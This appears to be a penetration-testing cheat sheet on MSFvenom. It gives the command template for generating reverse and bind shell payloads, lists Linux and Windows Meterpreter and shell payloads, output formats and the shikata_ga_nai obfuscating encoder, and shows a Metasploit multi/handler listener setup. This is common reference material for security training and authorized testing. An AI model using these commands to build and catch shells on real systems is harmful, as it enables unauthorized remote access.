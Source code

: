 ```yaml
---
layout: default
title: MSFvenom
tags:
    - bind
    - metasploit
    - meterpreter
    - msfpayload
    - obfuscation
    - reverse
    - shell
---
```

# MSFvenom
## General Reverse Shell Format
```shell
msfvenom -p <payload> LHOST=<local IP> LPORT=<local port> [-f <format>] [-e <encoder>] [-b <bad chars>] [-a <arch>] [--platform <platform>]
```
- For bind shells replace `LHOST=<local IP>` with `RHOST=<remote IP>`
- `-b` bad chars follows format such as `"\x00\x0D"`
- `EXITFUNC=<exit technique>`
    - `process` use where master process restarts on exit; use with multi/handler
    - `thread` *(default)*; use where shellcode runs in sub-thread; exit results in working system
    - `seh` use where a structured exception handler (SEH) restarts the thread or process on error
    - `none`

## Payloads
```shell
msfvenom -l payloads
```

### Linux
```shell
linux/x64/meterpreter/bind_tcp            # Bind Meterpreter
linux/x64/meterpreter_bind_tcp            # Bind Meterpreter (stageless)
linux/x64/meterpreter/reverse_tcp         # Reverse Meterpreter
linux/x64/meterpreter_reverse_tcp         # Reverse Meterpreter (stageless)

linux/x64/shell/bind_tcp                  # Bind shell
linux/x64/shell/reverse_tcp               # Reverse shell
```
- `x86` also available

### Windows
```shell
windows/x64/meterpreter/reverse_tcp       # Reverse Meterpreter
windows/x64/meterpreter_reverse_tcp       # Reverse Meterpreter (stageless)
windows/x64/meterpreter/bind_tcp          # Bind Meterpreter
windows/x64/meterpreter_bind_tcp          # Bind Meterpreter (stageless)

windows/x64/shell/reverse_tcp             # Reverse shell
windows/x64/shell_reverse_tcp             # Reverse shell (stageless)
windows/x64/shell/bind_tcp                # Bind shell
windows/x64/shell_bind_tcp                # Bind shell (stageless)

windows/x64/powershell_bind_tcp           # Bind PowerShell (stageless)
windows/x64/powershell_reverse_tcp        # Reverse PowerShell (stageless)

windows/x64/exec                          # Execute command; use CMD=<cmd>
```
- Remove `/x64` for x86

## Formats
```shell
msfvenom -l formats
```
### Executable
```shell
asp, aspx, dll, elf, exe, jar, jsp, msi, psh, vba, vbs, war
```

### Transform
```shell
bash, c, csharp, dword, hex, java, js_be, js_le, perl, powershell, python, raw, ruby, vbapplication, vbscript
```

## Encoders
```shell
msfvenom -l encoders
```
```shell
x86/shikata_ga_nai                        # Polymorphic XOR Additive Feedback Encoder
```
- `-i` for number of iterations

## Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <payload>
set RHOST <remote IP>
set LHOST <local IP>
set LPORT <local port>
run
```